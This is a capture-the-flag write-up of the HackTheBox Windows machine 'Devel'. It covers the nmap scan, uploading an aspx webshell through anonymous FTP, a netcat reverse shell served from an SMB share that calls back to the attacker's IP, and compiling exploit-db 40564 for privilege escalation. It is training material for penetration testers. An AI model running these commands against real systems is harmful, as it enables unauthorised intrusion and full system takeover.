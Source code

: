 ```yaml
---
layout: default
title: HackTheBox - Devel Writeup
permalink: /htb/devel
---
```


# Devel

> **Name:** Devel
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Devel](https://www.hackthebox.eu/home/machines/profile/3) was released on 15 Mar 2017 and is one of the first boxes released on the platform. It is one of the easier Windows boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding in betwteen work engagements. As it was so simple my notes consisted of the name and IP address and nothing else, so I've had to fully go back and re-do the box to make this write-up. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.5 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/devel/scan-results.png)


## Enumeration

Looking at the results from the Nmap scan a few things should stand out to you. The ftp service allows anonymous login, and the Nmap scripts that were run have given a directory listing with the following:

* aspnet_client
* iisstart.htm
* welcome.png

These look like the default files you would find in the root of a webserver on Windows, this is backed up by Nmap identifying IIS 7.5 running on port 80. The version of IIS should also stand out, this information can be used to give a good idea of which operating system is in use. With IIS 7.5 being the default on Server 2008R2, and as an additional feature you can turn on in Windows 7. 

The next step is to confirm that it is possible to upload a file via anonymous ftp access, and retrieve it via the web server. This will confirm the suspicions about the ftp giving us access to the web server root directory. We can quickly make a test file with the following command:

``` echo "Tiro's Super Secret Test" > Tiro.txt ```

All that command does is echo the text of your choice into a file of your choice, and if the file doesn't exit it will create it. Next up, is to connect to the ftp server and upload the file. 

![FTP Upload]({{site.url}}/assets/devel/ftp-upload.png)

The process shown above began by using the following command to connect to the ftp server:

* ``` ftp 10.10.10.5 ```
* When prompted for a username enter ``` anonymous ```
* When prompted for password put whatever you want
* Once ``` ftp > ``` appears you can upload your file with ``` put <filename> ```
* Using ``` ls ``` after the upload completes gives you confirmation that it is there

Now it is possible to browse to ``` http://10.10.10.5/Tiro.txt ``` and check if the file is there.

![Test Upload]({{site.url}}/assets/devel/test-text.png)

Whoop! It works, so what could possibly go wrong with allowing someone to upload files to the root directory of a web server? 


## Command Execution

A quick check of ``` webshells ``` on Kali gives a list of types of webshells available and changes that to your current directory.

![Web Shells]({{site.url}}/assets/devel/web-shells.png)

Now remember at the beginning when Nmap highlighted that the web server was IIS 7.5. Well that piece of information is now pretty useful as it gives an understanding on what languages the server is likely to understand and execute. As it's Windows and IIS picking an aspx webshell is a good way forward. Kali has one available in the aspx directory that can quickly be copied to your working directory ready to be uploaded using the ftp client. 

Once uploaded it is possible to browse to ``` http://10.10.10.5/cmdasp.aspx ``` to access it. This will give a very simple webpage with a text box for user input, and an execute button. 

![Empty Web Shell]({{site.url}}/assets/devel/blank-webshell.png)

How this works, is that whatever the user puts into the ``` command ``` field is taken and passed as an argument to ``` cmd.exe /c ``` when the execute button is pressed. The output is then displayed to screen, as shown with ``` whoami ``` in this example.

![Whoami]({{site.url}}/assets/devel/whoami.png)


## Get a Shell

Now that command execution is confirmed the next step is to look at a way of getting a full shell on the box. There are a few ways you can do this, like uploading a msfvenom payload and executing it, or running a powershell one-liner (a really long one liner). But for this one I am going to use a smbserver to host netcat and execute a reverse shell command. 

The smbserver is setup using the impacket-smbserver script with the following command:

``` impacket-smbserver -smb2support <share name> <directory to share> ```

Just make sure that nc.exe is in the directory you share! You can find where it is with ``` locate nc.exe ``` and then copy it to your working directory. Then run the command to setup your smb server. 

![Share Setup]({{site.url}}/assets/devel/setup-share.png)

Once it is setup a listener is setup using netcat:

``` nc -nlvp 443 ```

Then the netcat reverse shell command is run. 

``` \\10.10.14.33\tiro\nc.exe -e cmd.exe 10.10.14.33 443 ```

This looks a bit different to usual, but only because it is passing the network share location of nc.exe. The incoming request to the smb server should be seen in the terminal output:

![Accessing Share]({{site.url}}/assets/devel/accessing-share.png)

The listener will then catch the incoming connection and give a command shell. 

![Shell]({{site.url}}/assets/devel/shell-catching.png)


## Privilege Escalation

As we are a low privileged user it is a good idea to do some more enumeration to find potential methods of escalating privileges. Whilst I was preparing for my OSCP I found two good blog posts that I were very useful for Windows privilege escalation, and gave me methods to solve pretty much every Windows box in the labs:
* [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/16.html)
* [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

There are also multiple scripts out there that can automate this process and speed up spotting the path to take, but I recommend taking some time to follow through those blogs and checking all the things they mention. It can give you a good idea of what is normal, what isn't normal and will help to spot those unusual configurations that you can abuse. 

The first command that both blogs suggest is ``` systeminfo ``` as this will give a lot of information about the target such as the patching level. The output from this command is shown below, and the most noticeable thing is that no hotfixes have been applied to it!

![Systeminfo]({{site.url}}/assets/devel/system-info.png)

A very simple google search for the terms privesc and the OS version brings some promising results. 

![Search Results]({{site.url}}/assets/devel/ms11-046.png)

The top result is also in exploitdb, so it is already available on Kali via searchsploit. The code is also well commented and explains exactly how to compile it. However, you may have to install mingw-64 to be able to compile it. Once installed it is compiled with this command:

``` i686-w64-mingw32-gcc 40564.c -o tiro.exe -lws2_32 ```

This is the same command that is detailed in the comments of the programme. The ```40564.c file``` is a straight copy from exploitdb and didn't require any modifications. Once it is compiled it can be placed into the directory that the smb server is running and it can be executed to give that lovely system shell. 

![Yay System]({{site.url}}/assets/devel/system.png)

A fun box that is pretty simple in each step and only needs basic enumeration to find the way forward. 


